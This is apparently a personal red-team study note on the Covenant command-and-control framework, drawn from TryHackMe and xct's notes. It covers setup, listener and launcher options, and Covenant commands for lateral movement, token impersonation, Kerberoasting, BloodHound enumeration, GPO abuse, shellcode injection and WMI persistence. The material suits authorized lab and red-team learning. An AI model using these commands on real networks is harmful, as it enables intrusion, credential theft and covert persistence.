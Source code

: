 # Covenant

[Covenant](https://github.com/cobbr/Covenant) *is a .NET command and control framework that aims to highlight the attack surface of .NET, make the use of offensive .NET tradecraft easier, and serve as a collaborative command and control platform for red teamers. Covenant is an ASP.NET Core, cross-platform application that includes a web-based interface that allows for multi-user collaboration.*

[Covenant - Wiki](https://github.com/cobbr/Covenant/wiki)

## [Installation](https://github.com/cobbr/Covenant/wiki/Installation-And-Startup) 

Firstly it requires [Requires .NET Core 3.1 SDK](https://dotnet.microsoft.com/en-us/download/dotnet/3.1). MicroSoft really, really wants you to use later .NET versions so ... remember [3.1 Linux dependencies](https://github.com/dotnet/core/blob/main/release-notes/3.1/linux-packages.md), also mirrored locally [[Convenant-DOTNET-3dot1-dependices-mirror]], for future proofing
- If you are using [[Kali]]
	- Get binary, 
	- `mkdir dotnet-3.1; tar xrf $bin.tar.gz -C dotnet-3.1`
	- Manage the paths
		- `export DOTNET_ROOT=$SECURESENSIBLEDIR/dotnet-3.1
		- `export PATH=$PATH:$SECURESENSIBLEDIR/dotnet-3.1`
- Popular choice online (from my limited browsing and THM instructions) is use [[Ubuntu]] to avoid managing multiple .NET versions, remember to Disable Telemetry (see below)
- Docker, but has "gotchas"

Disable Telemetry
```bash
cat /etc/environment
# Check for this environment variable below, if not there add 
echo "export DOTNET_CLI_TELEMETRY_OPTOUT=1" | tee -a /etc/environment
```


There is a Docker [installation](https://github.com/cobbr/Covenant/wiki/Installation-And-Startup), has "gotchas"
```bash
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet run
```

#### THM Holo Guide To Convenant

More information: 
- SpecterOps blog, [https://posts.specterops.io/](https://posts.specterops.io
- SoCon talk on "Operating with Covenant" by Ryan Cobb and Justin Bui [https://www.youtube.com/watch?v=oN_0pPI6TYU](https://www.youtube.com/watch?v=oN_0pPI6TYU).

Profiles:
- `CustomHttpProfile` Custom profile that does not require any cookies.
- `DefaultBridgeProfile` Default profile for a C2 bridge.
- `DefaultHttpProfile` Default HTTP profile.
- `TCPBridgeProfile` Default TCP profile for a C2 bridge.

Edit Listeners - parameters below:
- `Name` Name of profile to be used throughout the interface.
- `Description` Description of profile and its use cases.
- `MessageTransform` Specify how data will be transformed before being placed in other parameters. 
- `HttpUrls` list of URLs the grunt can callback to.
- `HttpRequestHeaders` List of header pairs (name/value) that will be sent with every HTTP request.
- `HttpResponseHeaders` List of header pairs (name/value) that will be sent with every HTTP response.
- `HttpPostRequest` Format of data when a grunt posts data back to the profile.
- `HttpGetResponse` HTTP response when a grunt GETs data to the listener.
- `HttpPostResponse` HTTP response when a grunt POSTs data to the listener.

Create a Listener: `Listeners` Tab -> `Create Listener`. Options:
- `Name` (optional) will help to identify different listeners.
- `BindAddress` Local address listener will bind on, usually `0.0.0.0`.
- `BindPort` Local port listener will bind on.
- `ConnectPort` Port to callback to, suggested to set to `80`, `8080`, or `8888`.
- `ConnectAddresses` Addresses for the listener to callback to, hostname portion of the `URL`.
- `URLs` Callback URLs the grunt will be connected directly back to.
- `UseSSL` Determines whether or not the listener uses `HTTP` or `HTTPS`.
- `SSLCertificate` Certificate used by the listener if SSL is set to true.
- `SSLCertificatePassword` Password being used by the `SSLCertificate`.
- `HttpProfile` Profile used by the listener and grunt to determine communication behaviour.

Launchers:
- `Binary` Generates a custom binary to launch grunt, does not rely on a system binary.
- `Shellcode` Converts binary to shellcode using donut, [](https://github.com/TheWover/donut)[https://github.com/TheWover/donut](https://github.com/TheWover/donut)
- `PowerShell` Generates PowerShell code to launch a grunt using `powershell.exe`.
- `MSBuild` Generates an MSBuild XML file to launch a grunt using `msbuild.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)[https://lolbas-project.github.io/lolbas/Binaries/Msbuild/](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)
- `InstallUtil` Generates an InstallUtil XML file to launch a grunt using `installutil.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)[https://lolbas-project.github.io/lolbas/Binaries/Installutil/](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)
- `Mshta` Generates an HTA file to launch a grunt using `mshta.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)[https://lolbas-project.github.io/lolbas/Binaries/Mshta/](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- `Regsrv32` Generates an SCT file to launch a grunt using `regsrv32.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)[https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)
- `Wmic` Generates an XSL file to launch a grunt using `wmic.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)[https://lolbas-project.github.io/lolbas/Binaries/Wmic/](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)
- `Cscript` Generate a JScript file to launch a grunt using `cscript.exe`, [](https://lolbas-project.github.io/lolbas/Binaries/Cscript/)[https://lolbas-project.github.io/lolbas/Binaries/Cscript/](https://lolbas-project.github.io/lolbas/Binaries/Cscript/)
- `Wscript` Generate a JScript file to launch a grunt using `wscript.exe`, [https://lolbas-project.github.io/lolbas/Binaries/Wscript/](https://lolbas-project.github.io/lolbas/Binaries/Wscript/)

Launcher Options:
- `Listener` Listener the grunt will communicate with.
- `ImplantTemplate` Type of implant launcher will use.
- `DotNetVersion` .NET version launcher will use, dependent on `ImplantTemplate`.
- `Delay` Time grunt will sleep in-between callbacks. A larger delay can aid in stealthy communications.
- `JitterPercent` Percent of variability in `Delay`.
- `ConnectAttempts` Amount of times grunt will attempt to connect back to the server before quitting.
- `KillDate` Date specified grunt will quit and stop calling back.

[See Task 27 for converting a .NET Red Team tool into a Covenant Task](https://tryhackme.com/r/room/hololive)
#### xct's references to `covenant` in notes.vulndev.io

[Covenant Misc.](https://notes.vulndev.io/wiki/redteam/active-directory/misc#covenant-misc)
```Powershell
# Set Delay <seconds>
Set Delay <seconds>
sleep <seconds>
```

Use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to modify/add GPOs. Covenant example:
```powershell
Assembly /assemblyname:"SharpGPOAbuse" /parameters:"--AddComputerTask --TaskName \"<taskname>\" --Au
```

[Lateral Movement](https://notes.vulndev.io/wiki/redteam/active-directory/lateral-movement)
```powershell
# Generate an encoded powershell launcher and launch it via WMICommand.
WMIGrunt <computername> PowerShell
WMICommand <computername> PowerShell
# Get a PowerShell remote session with current user
PowerShellRemoting <computername> <cmd>
PowerShellRemoting <computername> <cmd> <domain> <user> <pass>
# PsExec with Covenant
CreateRemoteService <computername> gruntsvc "<name>" c:\temp\x.exe
StartRemoteService <computername> gruntsvc
DeleteRemoteService <computername> gruntsvc
```

[Credentials](https://notes.vulndev.io/wiki/redteam/active-directory/using-credentials) and Password Spraying
```powershell
# Impersonate Token
ImpersonateUser <user>
ImpersonateProcess <pid>
RevToSelf
# Create Token
MakeToken <user> <domain> <password>

# Make TGT with Rubeus, NetOnly logon session can only accommodate one TGT at a time,.. create another session before applying a TGT to it.
# For Process impersonation - After applying the ticket to the process 
Impersonate Process <pid>
```
For Process Injection there is a custom [Covenant task](https://github.com/ZeroPointSecurity/RTOVMSetup/tree/master/Covenant) that allows to inject shellcode into a process. By typing `Inject` a popup will appear where you paste the shellcode.

Use Rubeus in various ways- [[Rubeus-Cheatsheet]]
```powershell
# Kerberoasting
Rubeus kerberoast /format:hashcat
```

[Domain Enumeration](https://notes.vulndev.io/wiki/redteam/active-directory/domain-enum#via-covenant), `bloodhound` via `convenant` - [[Bloodhound-Guide]] 
```Powershell
Assembly /assemblyname:"winsrv" /parameters:"\"-c All GPOLocalGroup\""
```

[Domain Trusts](https://notes.vulndev.io/wiki/redteam/active-directory/domain-trust#sharphound-across-forest-covenant) `sharphound` via `convenant` across a Domain Forest - [[Bloodhound-Guide]] 
```powershell
(xct) > Assembly SharpHound3 "-c All -D other.domain"
```
Kerberoasting with Rubeus in across a Domain Forest - [[Rubeus-Cheatsheet]]
```
(xct) > Rubeus kerberoast /domain:other.domain
```

[Persistance](https://notes.vulndev.io/wiki/redteam/active-directory/persistence#wmi-subscriptions-covenant)
- Run "`PersistWMI`", this will execute along another program. E.g. the victim opens chrome our persistence calls back.


## References

[Covenant GitHub](https://github.com/cobbr/Covenant)
[Covenant - Wiki](https://github.com/cobbr/Covenant/wiki)
[Covenant - Installation](https://github.com/cobbr/Covenant/wiki/Installation-And-Startup)
[xct's .vulndev.io notes on Covenant Misc.](https://notes.vulndev.io/wiki/redteam/active-directory/misc#covenant-misc)
[xct's .vulndev.io notes on Lateral Movement](https://notes.vulndev.io/wiki/redteam/active-directory/lateral-movement)
[xct's .vulndev.io notes on Credentials](https://notes.vulndev.io/wiki/redteam/active-directory/using-credentials) 
[xct's .vulndev.io notes on Domain Enumeration](https://notes.vulndev.io/wiki/redteam/active-directory/domain-enum#via-covenant)
[xct's .vulndev.io notes on Persistance](https://notes.vulndev.io/wiki/redteam/active-directory/persistence#wmi-subscriptions-covenant)
[xct's .vulndev.io notes on Domain Trusts](https://notes.vulndev.io/wiki/redteam/active-directory/domain-trust#sharphound-across-forest-covenant)
[xct's .vulndev.io notes on SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) 
[THM Holo Room - Covenant Tasks](https://tryhackme.com/r/room/hololive)
